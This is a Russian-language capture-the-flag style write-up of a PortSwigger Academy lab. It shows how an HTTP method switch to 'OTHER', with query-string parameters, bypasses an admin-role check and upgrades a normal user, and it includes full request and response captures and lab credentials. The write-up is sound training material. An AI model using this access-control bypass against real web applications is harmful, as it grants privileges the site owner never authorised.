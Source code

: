 ```yaml
---
title: "Method-based access control can be circumvented"
date: 2025-07-25
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/access-control/lab-method-based-access-control-can-be-circumvented"
classes: wide
---
```


Известны креды от аккаунта администратора `administrator:admin`. Для решения нужно повысить свой аккаунт до администратора. Для входа можно использовать данные `wiener:peter`.

```
https://0a0f00da04e7a5ec8059a95d005600e3.web-security-academy.net/
```

## Solution

Итак, начну по порядку. Залогинюсь в личный кабинет админа, чтобы собрать пример запроса:

```http
POST /admin-roles HTTP/2
Host: 0a0f00da04e7a5ec8059a95d005600e3.web-security-academy.net
Cookie: session=pTr8IOmnMWU0CqHp6LIu9EYyhkkyWaS5
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a0f00da04e7a5ec8059a95d005600e3.web-security-academy.net/admin
Content-Type: application/x-www-form-urlencoded
Content-Length: 32
Origin: https://0a0f00da04e7a5ec8059a95d005600e3.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

username=carlos&action=upgrade
```

Пример собрали. Теперь возвращаюсь к жизни обычного смертного. Подставляю другое значение сессии, ибо и дурак сможет выполнять команды от лица админа) Подставлю свой логин в поле `username`. Как и ожидалось — запрет:

```http
HTTP/2 401 Unauthorized
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 14

"Unauthorized"
```

Попробую изменить метод на `OTHER`:

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 30

"Missing parameter 'username'"
```

А вот это уже интереснее:

```http
OTHER /admin-roles?username=wiener&action=upgrade HTTP/2
Host: 0a0f00da04e7a5ec8059a95d005600e3.web-security-academy.net
Cookie: session=LQVLBuPECrAuzyle1GdiH47BrNf1p8Nh
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a0f00da04e7a5ec8059a95d005600e3.web-security-academy.net/admin
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
Origin: https://0a0f00da04e7a5ec8059a95d005600e3.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Ндаа...

```http
HTTP/2 302 Found
Location: /admin
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

Я думал, что будет какой-нибудь специфичный метод. Или хотя бы `PUT`. Но лаба решена, чего жаловаться то?)

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_Method-based_access_control_can_be_circumvented/1.png){: height="200" .align-center}

